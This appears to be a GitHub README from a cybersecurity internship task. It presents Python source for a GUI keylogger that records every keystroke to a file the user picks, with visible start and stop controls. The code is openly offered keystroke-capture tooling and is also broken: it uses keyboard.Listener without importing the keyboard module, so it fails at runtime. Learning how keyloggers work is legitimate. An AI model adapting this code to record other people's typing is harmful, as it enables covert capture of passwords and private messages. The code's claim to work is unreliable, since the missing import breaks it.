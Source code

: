 # Task-4--Simple-Keylogger
Excited to share that I have successfully completed task 4 of Prodigy InfoTech Cyber Security Internship!  🔒 create a simple keylogger program  A keylogger  is a type of software that records everything you type on your computer.

import tkinter as tk
from tkinter import filedialog

class KeyLoggerGUI:
    def __init__(self) -> None:
        self.filename = ""
        self.is_logging = False
        self.logged_keys = ""

        self.root = tk.Tk()
        self.root.title("Keylogger")

        self.textbox = tk.Text(self.root, wrap="word")
        self.textbox.pack(fill="both", expand=True)

        self.status_label = tk.Label(self.root, text="Logging Stopped", fg="red")
        self.status_label.pack(pady=5)

        self.start_button = tk.Button(self.root, text="Start Logging", command=self.start_logging)
        self.start_button.pack(side="left", padx=5, pady=5)

        self.stop_button = tk.Button(self.root, text="Stop Logging", command=self.stop_logging, state="disabled")
        self.stop_button.pack(side="left", padx=5, pady=5)

        self.clear_button = tk.Button(self.root, text="Clear Logs", command=self.clear_logs)
        self.clear_button.pack(side="left", padx=5, pady=5)

        self.save_button = tk.Button(self.root, text="Choose File", command=self.choose_file)
        self.save_button.pack(side="left", padx=5, pady=5)

    @staticmethod
    def get_char(key):
        try:
            return key.char
        except AttributeError:
            return str(key)

    def on_press(self, key):
        char = self.get_char(key)
        self.logged_keys += char
        self.textbox.insert(tk.END, char)
        self.textbox.see(tk.END)  # Automatically scroll down
        with open(self.filename, 'a') as logs:
            logs.write(char)

    def start_logging(self):
        if not self.is_logging:
            self.filename = filedialog.asksaveasfilename(defaultextension=".txt",
                                                          filetypes=[("Text files", "*.txt"), ("All files", "*.*")])
            if self.filename:
                self.is_logging = True
                self.start_button.config(state="disabled")
                self.stop_button.config(state="normal")
                self.status_label.config(text="Logging Started", fg="green")
                self.listener = keyboard.Listener(on_press=self.on_press)
                self.listener.start()

    def stop_logging(self):
        if self.is_logging:
            self.is_logging = False
            self.start_button.config(state="normal")
            self.stop_button.config(state="disabled")
            self.status_label.config(text="Logging Stopped", fg="red")
            self.listener.stop()

    def clear_logs(self):
        self.logged_keys = ""
        self.textbox.delete(1.0, tk.END)

    def choose_file(self):
        self.filename = filedialog.asksaveasfilename(defaultextension=".txt",
                                                      filetypes=[("Text files", "*.txt"), ("All files", "*.*")])

    def run(self):
        self.root.mainloop()

if __name__ == '__main__':
    logger = KeyLoggerGUI()
    logger.run()
